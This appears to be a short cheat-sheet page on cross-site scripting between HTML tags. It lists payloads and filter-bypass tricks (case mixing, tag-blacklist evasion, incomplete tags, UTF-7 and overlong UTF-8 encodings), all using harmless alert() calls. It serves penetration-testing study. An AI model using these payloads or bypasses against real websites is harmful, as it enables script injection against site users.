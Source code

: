 ## XSS between HTML tags
 When the XSS context is text between HTML tags, you need to introduce some new HTML tags designed to trigger execution of JavaScript.

**EX**:
```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

### Bypass
i will focus on bypasses that introduce HTML tags


#### Bypass case sensitive

```html
<sCrIpt>alert(1)</ScRipt>
```

#### Bypass tag blacklist

```html
<script x>
<script x>alert('XSS')<script y>
```

#### Bypass with incomplete html tag
```html
<img src='1' onerror='alert(0)' <
```

#### Bypass using UTF-7
```
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-   === <img src="1" onerror="alert(1)" />
```

#### Bypass using UTF-8
```
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9

```
